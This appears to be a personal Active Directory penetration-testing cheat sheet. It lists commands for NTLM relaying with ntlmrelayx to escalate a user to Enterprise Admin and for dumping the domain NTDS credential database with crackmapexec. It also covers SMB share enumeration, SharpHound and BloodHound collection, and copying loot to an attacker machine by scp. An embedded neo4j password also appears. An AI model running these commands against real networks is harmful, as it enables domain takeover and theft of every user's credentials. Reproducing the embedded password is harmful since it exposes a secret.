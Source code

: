 run ntlmrelayx to escalate user privilege to EnterpriseAdmin;

```
python3 ntlmrelayx.py -6 -t ldaps://TARGET-IP -wh fakewpad.Domain.local -l lootme3 --escalate-user username
```

use crackmapexec to dump ntds database file:

```
crackmapexec smb Target-IP -u 'username' -p 'password' --ntds drsuapi
```

### SMB Enumration

```
smbclient -L //10.10.10.192
// OR
sudo nmap -p 445 --script smb-enum-shares 192.168.1.58
```

to catch shares

```
crackmapexec smb 10.10.10.192 --shares
// OR nmap module
```
# Enumeration


### SharpHound

install https://github.com/BloodHoundAD/BloodHound/tree/master , then run SharpHound in Collector file.

or use

```
SharpHound.exe --CollectionMethod All
```

### BloodHound

To start bloodhound gui:

```
sudo neo4j console
// Credientials
neo4j:#Ahmed01*
```

To load the file from the win machine to kali use scp:
first open ssh with the win machine,
```
ssh username@MACHINE-IP
scp 20240114183907_BloodHound.zip kali@192.168.68.128:/home/kali/Desktop
```
